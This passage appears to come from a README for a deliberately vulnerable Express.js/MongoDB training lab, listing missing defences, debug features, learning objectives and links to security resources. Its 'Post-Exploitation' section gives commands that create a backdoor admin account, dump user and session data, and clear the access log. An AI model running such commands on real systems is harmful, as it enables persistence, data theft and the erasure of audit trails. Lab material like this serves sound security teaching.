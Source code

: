 
## Defense Mechanisms (What's Missing)
- ❌ Input validation (express-validator)
- ❌ Output encoding
- ❌ Parameterized queries
- ❌ Security headers (helmet.js)
- ❌ Rate limiting
- ❌ CSRF protection
- ❌ Secure session configuration
- ❌ Error handling

## Debug/Development Features in Production

```javascript
// Morgan logging exposing sensitive data
app.use(morgan('combined'));

// Express debug mode
DEBUG=* node app.js

// Source maps enabled
app.use('/maps', express.static('dist'));
```

## Learning Objectives
- Understanding Node.js event loop vulnerabilities
- Express middleware security
- JavaScript-specific vulnerabilities
- NoSQL injection techniques
- Prototype pollution exploitation
- Secure Express.js development

## Post-Exploitation

```javascript
// Create admin user
db.users.insert({
    username: "hacker",
    password: "hacked",
    role: "admin"
});

// Extract all data
db.users.find({}).pretty();
db.sessions.find({}).pretty();

// Clean logs
require('fs').writeFileSync('./access.log', '');
```

## Additional Resources
- [Express Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html)
- [Node.js Security Checklist](https://blog.risingstack.com/node-js-security-checklist/)
- [OWASP NodeGoat](https://github.com/OWASP/NodeGoat) 